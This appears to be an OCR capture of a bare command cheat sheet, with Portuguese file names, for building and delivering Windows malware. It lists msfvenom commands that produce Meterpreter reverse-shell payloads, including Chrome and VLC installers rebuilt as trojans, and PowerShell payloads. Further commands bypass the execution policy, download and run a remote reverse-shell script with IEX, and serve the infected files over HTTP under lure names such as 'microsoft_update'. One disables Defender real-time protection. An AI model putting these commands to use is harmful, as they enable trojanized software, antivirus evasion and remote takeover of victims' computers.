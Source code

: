 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f exe > atibaia_payload.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f psh > payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe

Get-ExecutionPolicy

Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/usuario/repo/main/Invoke-ReverseShell.ps1')


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

http://192.168.1.137/payload.ps1

Test-NetConnection 192.168.1.137 -Port 443

Set-MpPreference -DisableRealtimeMonitoring $true

https://software.download.prss.microsoft.com/dbazure/Win10_22H2_BrazilianPortuguese_x64v1.iso?t=e5e99b27-438b-431d-9d64-86489e182f98&P1=1744405381&P2=601&P3=2&P4=f40ON0oovKGJWGrY%2bug6FI0LMLMWQtsvrWn70G6yYXtMIjlTOdYcUPmEFJ4fO4BwBAuqxNwVixbL6CKd5zlyIAo%2bKvg57n3vO%2bWSZCpo2zky%2blfaamqH%2bKPP33l4jKvGj%2b8HzqiUtM1Q7uGHgoyS3GDDE%2fW4gWCl0O7%2fy%2bB8qLzHK350i3CmZUBY4voa0qJbNO3GD0lb5FePTgvJbWJ4WolWV54uOsGOCtttwlJ5Y3KoIVmVLr9q9Q%2fNc2bf%2bayvgolgzwfqIPY9LN6rG5xyHEE2Evmp6nVsA%2f20SE7yb5v0603UZJmgpTIvrcCDOlq4Us75%2f4ONVSLaXKm3Qx6cyg%3d%3d




 
